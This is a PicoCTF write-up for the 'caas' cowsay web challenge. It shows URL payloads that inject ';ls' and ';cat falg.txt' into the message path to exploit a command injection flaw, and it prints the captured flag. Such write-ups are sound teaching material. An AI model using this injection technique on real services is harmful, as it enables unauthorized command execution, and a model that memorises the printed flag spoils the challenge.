 # WriteUp PicoCTF

# caas - Web Exploition

## Statement

<img src="Images/caas.jpg" alt="challenge caas" width="400"/>

Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

## Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

![](Images/caas1.png)

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

Images/caas2.png)

## Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**